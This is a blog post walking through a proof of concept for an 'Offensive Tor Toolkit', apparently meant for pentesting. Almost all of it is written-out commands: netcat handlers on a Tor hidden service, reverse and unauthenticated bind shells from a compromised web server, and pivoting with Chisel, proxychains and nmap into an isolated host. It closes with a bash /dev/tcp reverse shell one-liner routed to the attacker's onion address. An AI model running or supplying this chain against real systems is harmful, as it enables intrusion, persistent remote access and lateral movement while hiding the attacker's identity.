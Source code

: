 ```yaml
---
title: Offensive Tor Toolkit PoC
type: posts
date: 2020-11-18
---
```

In this post we will be showing how to use [**Offensive Tor Toolkit**](https://github.com/atorrescogollo/offensive-tor-toolkit) for pentesting over Tor. This suite of tools will allow us to execute exploitation and post-exploitation tasks from the victim preserving the attacker anonymity. For more info, check the [**docs**](../../projects/offensive-tor-toolkit).

First of all, we have the following vulnerable scenario:
* **Victim1** serves a vulnerable service to Internet.
* **Victim2** serves a vulnerable service to the internal network and it has no access to Internet.

<span class="img-medium">![Overview](../static/offensive-tor-toolkit/01_Overview.png)</span>

</br>

## Gaining access with reverse-shell-over-tor
We assume that **we are able to execute commands in Victim1** in some way. Then, to obtain a reverse shell preserving anonymity, we will use [**reverse-shell-over-tor**](../../projects/offensive-tor-toolkit/reverse-shell-over-tor) from [**Offensive Tor Toolkit**](https://github.com/atorrescogollo/offensive-tor-toolkit) as follows:
* **Attacker**: run the handler reachable from a Hidden Service.
```bash
[attacker]$ grep '^HiddenService' /etc/tor/torrc
HiddenServiceDir /tmp/tortest
HiddenServicePort 4444 127.0.0.1:4444

[attacker]$ cat /tmp/tortest/hostname
m5et..jyd.onion

[attacker]$ nc -lvnp 4444
```
* **Victim1**: download and execute [**reverse-shell-over-tor**](../../projects/offensive-tor-toolkit/reverse-shell-over-tor).
```bash
[victim1]$ ./reverse-shell-over-tor \
    -listener m5et..jyd.onion:4444
```
* **Attacker**: reverse shell is catched with the handler.
```bash
[attacker]$ nc -lvnp 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
<span class="img-medium">![Reverse Shell over Tor](../static/offensive-tor-toolkit/02_reverse-shell-over-tor.png)</span>

</br>

## Multi-shell access with bind shell
In order to get a bind shell served by **Victim1**, we will use [**hidden-bind-shell**](../../projects/offensive-tor-toolkit/hidden-bind-shell) as follows:
* **Victim1**: download and execute [**hidden-bind-shell**](../../projects/offensive-tor-toolkit/hidden-bind-shell).
```bash
[victim1]$ ./hidden-bind-shell \
    -data-dir /tmp/datadir/ \
    -hiddensrvport 1234
...
Bind shell is listening on hgnzi6j3rqog6yew.onion:1234
```
* **Attacker**: connect to the Hidden Service to get a shell session.
```bash
[attacker]$ alias nctor='nc --proxy 127.0.0.1:9050 --proxy-type socks5'
[attacker]$ nctor -v hgnzi6j3rqog6yew.onion 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
> It should be noted that `data-dir` flag will allow us to start the service always in the same onion address.

> Currently, this bind shell has no authentication. This means that this bind shell for persistent purposes can be dangerous.

<span class="img-medium">![Hidden Bind Shell](../static/offensive-tor-toolkit/03_hidden-bind-shell.png)</span>

</br>

## Pivoting with hidden-portforwarding and Chisel
At this point, **Victim1** is already compromised. In order to reach **Victim2 (the isolated network machine)**, we will use **Victim1**.
To achieve our goal, we will use [**hidden-portforwarding**](../../projects/offensive-tor-toolkit/hidden-portforwarding) together with [**Chisel**](https://github.com/jpillora/chisel).

With this approach, we will set up a **Hidden Service in Victim1 that redirects to the Chisel server**. Thus, from the attacker we can generate a tunnel with the Chisel client on which to send traffic.

>Chisel client allows the attacker to generate a tunnel to the Chisel server.

* **Victim1**: Run the Chisel Server to listen on `127.0.0.1:1111` and [**hidden-portforwarding**](../../projects/offensive-tor-toolkit/hidden-portforwarding).
```bash
[victim1]$ ./chisel server -p 1111 --socks5 &
[victim1]$ ./hidden-portforwarding \
    -data-dir /tmp/pf-datadir \
    -forward 127.0.0.1:1111 \
    -hidden-port 9001
...
Forwarding xa7ljkruk7lra4el.onion:9001 -> 127.0.0.1:1111
```

* **Attacker**: Connect Chisel client to the Chisel server through the Hidden Service.
```bash
[attacker]$ alias chisel-client-tor='chisel client --proxy socks://127.0.0.1:9050'
[attacker]$ chisel-client-tor xa7ljkruk7lra4el.onion:9001 socks &
```

```bash
[attacker]$ ss -lntp | grep chisel
LISTEN 0   4096   127.0.0.1:1080   0.0.0.0:*  users:(("chisel",pid=3730,fd=3))
```

Now, Chisel client is listening as a **SOCKS5 proxy** so that traffic sent through the proxy goes out through **Victim1**. All you need to reach **Victim2** is to connect to this proxy as follows:
```bash
[attacker]$ alias pc4='proxychains4 -f /etc/proxychains4.conf'
[attacker]$ cat /etc/proxychains4.conf
...
[ProxyList]
socks5  127.0.0.1 1080

[attacker]$ pc4 nmap -sT -Pn -n -sV -sC -p80,22,25,3000 victim2
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
25/tcp   open  smtp    Postfix smtpd
80/tcp   open  http    Apache httpd 2.4.43 (() PHP/5.4.16)
3000/tcp open  http    Mongoose httpd
...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 230.37 seconds
```

<span class="img-medium">![Hidden Portforwarding](../static/offensive-tor-toolkit/04_hidden-portforwarding.png)</span>

## Remote port forwarding through Tor
**Victim2** does not have Internet access, so we cannot access Tor directly from it. Alternatively, we can use [**tcp2tor-proxy**](../../projects/offensive-tor-toolkit/tcp2tor-proxy) to have **Victim1** used as a Tor proxy for **Victim2**.

* **Victim1**: Set up the remote port forwarding so that `127.0.0.1:60101` will reach the Hidden Service.
```bash
[victim1]$ ./tcp2tor-proxy -listen 0.0.0.0:60101 -onion-forward m5et..jyd.onion:4444
...
Proxying 0.0.0.0:60101 -> m5et..jyd.onion:4444
```

* **Attacker**: Set up a handler to received reverse shells.
```bash
[attacker]$ nc -lnvp 1234
```

* **Victim2**: Send the reverse shell to **Victim1** (tcp2tor-proxy).
```bash
[victim2]$ bash -i >& /dev/tcp/victim1/60101 0>&1
```

* **Attacker**: Receive the reverse shell
```bash
[attacker]$ nc -lnvp 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

<span class="img-medium">![Tcp2Tor Proxy](../static/offensive-tor-toolkit/05_tcp2tor-proxy.png)</span>
